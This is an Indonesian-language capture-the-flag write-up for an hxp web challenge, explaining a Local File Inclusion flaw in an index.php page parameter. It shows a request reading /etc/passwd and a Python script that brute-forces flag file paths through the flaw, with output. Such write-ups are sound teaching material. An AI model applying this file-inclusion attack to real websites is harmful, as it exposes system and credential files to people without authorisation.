 Deskripsi soal:
<pre>
So I hope you're well insured, because the nineties have sent us their
best thing ever: bright colors and Comic Sans MS. Please end it before
everyone dies due to internal bleedings.

1.ctf.link:1123
</pre>
Pada soal ini peserta diberikan soal web yang beralamat di http://1.ctf.link:1123, melihat beberapa konten yang disediakan kami berpikir celah yang dapat ditemukan pada web tersebut adalah LFI ( Local File Inclusion ) itu diketahui dari salah satu halaman about maupun guestbook.
Soal ini terbilang cukup mudah karena celah sudah kita ketahui letak celahnya, untuk mengecek kebenaran akan celah tersebut dapat kita cek bagian /etc/passwd ( http://1.ctf.link:1123/index.php?page=/etc/passwd ). Tapi tujuan kita disini adalah mencari file flagnya, maka dari itu untuk mencari file flag tersebut kami mencoba melakukan bruteforce dan mengecek pattern dari flag dengan format "hxp{....}". 
Kami menggunakan python untuk melakukan proses bruteforcing ini, berikut codenya: 

```python
import urllib2
import re

url = "http://1.ctf.link:1123/index.php?page=%s"  

maybe_the_flag_file = [
	"flag",
	"fl4g",
	"fl49",
	"/flag",
	"/fl4g",
	"/fl4g",
	"flag.txt",
	"fl4g.txt",
	"fl49.txt",
	"/bin/flag",
	"/bin/flag",
	"/bin/fl4g",
	"/bin/fl49"
] # pattern

def find_flag():
	flag = ''
	for x in range(0, len(maybe_the_flag_file)):
		url_find = url % maybe_the_flag_file[x]
		urlop = urllib2.urlopen(url_find)
		read_url = urlop.read()
		print "Mencoba -> %s" % (url_find)
		#print read_url
		if "hxp{" in read_url:
			print "Nice! ketemu di %s !" % (url_find)
			rgx = re.findall(r'hxp{(.*)}', read_url)
			flag = ''.join(str(rgx).split())
			break
	print "Flag: %s" % flag

def main():
	find_flag()

if __name__ == '__main__':
	main()
```

<h3>Output</h3>
<pre>
Mencoba -> http://1.ctf.link:1123/index.php?page=flag
Mencoba -> http://1.ctf.link:1123/index.php?page=fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=fl49
Mencoba -> http://1.ctf.link:1123/index.php?page=/flag
Mencoba -> http://1.ctf.link:1123/index.php?page=/fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=/fl4g
Mencoba -> http://1.ctf.link:1123/index.php?page=flag.txt
Nice! ketemu di http://1.ctf.link:1123/index.php?page=flag.txt !
Flag: ['the_nineties_called_they_want_their_design_back']
</pre>

Ditemukan flagnya, kemudian disusun sesuai dengan format flag dari CTF ini dengan menambah "hxp{...}". <br />
Flag: <b>hxp{the_nineties_called_they_want_their_design_back}</b>
